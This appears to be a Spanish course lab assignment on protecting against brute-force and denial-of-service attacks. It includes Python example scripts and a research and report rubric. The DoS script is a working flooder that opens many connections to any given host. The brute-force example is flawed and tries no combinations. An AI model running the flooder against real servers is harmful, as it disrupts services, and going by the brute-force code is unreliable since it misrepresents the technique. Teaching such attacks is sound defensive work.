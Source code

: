 # Practica 5 - Protección contra ataques

## Objetivo

Crear un programa que simule un ataque de fuerza bruta y otro que simule un ataque de denegación de servicio.

## Desarrollo

1. Crear un programa que simule un ataque de fuerza bruta.

Este programa debe recibir un usuario y una contraseña, y debe intentar iniciar sesión en un sistema con estos datos. El programa debe intentar iniciar sesión con diferentes combinaciones de usuario y contraseña hasta que logre iniciar sesión o hasta que se alcance un límite de intentos fallidos.

- El programa debe recibir el usuario y la contraseña como argumentos de línea de comandos.
- El programa debe recibir el límite de intentos fallidos como argumento de línea de comandos.
- El programa debe mostrar un mensaje indicando si logró iniciar sesión o si se alcanzó el límite de intentos fallidos.
- El programa debe mostrar un mensaje indicando cuántos intentos fallidos se realizaron.
- El programa debe mostrar un mensaje indicando cuánto tiempo tardó en realizar el ataque.
- El programa debe mostrar un mensaje indicando cuántas combinaciones de usuario y contraseña se intentaron.

```python
# Ejemplo en Python
import sys
import time

def brute_force(user, password, limit):
    start = time.time()
    attempts = 0
    while attempts < limit:
        attempts += 1
        if user == 'admin' and password == 'password':
            end = time.time()
            print(f'Inició sesión como {user} con la contraseña {password}')
            print(f'Intentos fallidos: {attempts}')
            print(f'Tiempo transcurrido: {end - start} segundos')
            print(f'Combinaciones intentadas: {attempts}')
            return
    end = time.time()
    print(f'No se pudo iniciar sesión')
    print(f'Intentos fallidos: {attempts}')
    print(f'Tiempo transcurrido: {end - start} segundos')
    print(f'Combinaciones intentadas: {attempts}')

if __name__ == '__main__':
    if len(sys.argv) != 4:
        print('Uso: python brute_force.py <usuario> <contraseña> <intentos>')
        sys.exit(1)
    user = sys.argv[1]
    password = sys.argv[2]
    limit = int(sys.argv[3])
    brute_force(user, password, limit)
```

```bash
python brute_force.py admin password 1000
```

2. Crear un programa que simule un ataque de denegación de servicio.

Este programa debe enviar una gran cantidad de solicitudes a un servidor para intentar saturarlo y evitar que responda a solicitudes legítimas.

- El programa debe recibir la dirección IP del servidor y el puerto como argumentos de línea de comandos.
- El programa debe recibir la cantidad de solicitudes a enviar como argumento de línea de comandos.
- El programa debe mostrar un mensaje indicando cuántas solicitudes se enviaron.
- El programa debe mostrar un mensaje indicando cuánto tiempo tardó en enviar las solicitudes.

```python
# Ejemplo en Python
import sys
import socket
import time

def dos(ip, port, requests):
    start = time.time()
    for _ in range(requests):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, port))
        s.send(b'GET / HTTP/1.1\r\n')
        s.close()
    end = time.time()
    print(f'Se enviaron {requests} solicitudes')
    print(f'Tiempo transcurrido: {end - start} segundos')
  
if __name__ == '__main__':
    if len(sys.argv) != 4:
        print('Uso: python dos.py <ip> <puerto> <solicitudes>')
        sys.exit(1)
    ip = sys.argv[1]
    port = int(sys.argv[2])
    requests = int(sys.argv[3])
    dos(ip, port, requests)
```

```bash
python dos.py "127.0.0.1" 80 1000
```

3. Realizar pruebas de los programas creados.

4. Documentar los resultados obtenidos y las posibles acciones que se pueden realizar para prevenir este tipo de ataques.

5. Investiga y describe los siguientes conceptos:

    - Ataque de fuerza bruta
    - Ataque de denegación de servicio (DoS)
    - Ataque economico de denegación de servicio (EDoS)
    - Ataque de denegación de servicio distribuido (DDoS)
    - Ataque de denegación de servicio por agotamiento de recursos
    - Ataque de denegación de servicio por saturación de ancho de banda

## Entrega

- Documento en formato PDF que contenga la documentación de los resultados obtenidos y las posibles acciones que se pueden realizar para prevenir este tipo de ataques.

## Evaluación

- El documento deberá contener la información solicitada en las instrucciones.
- El documento deberá tener una extensión mínima de 3 cuartillas.
- El documento deberá tener una portada con los datos del alumno y el nombre de la práctica.
- El documento deberá tener un índice con los temas investigados.
- El documento deberá tener una conclusión con los aprendizajes obtenidos.
- El documento deberá tener una bibliografía con las fuentes consultadas.

## Deadline

- Miercoles 09 de Octubre a las 23:59 hrs
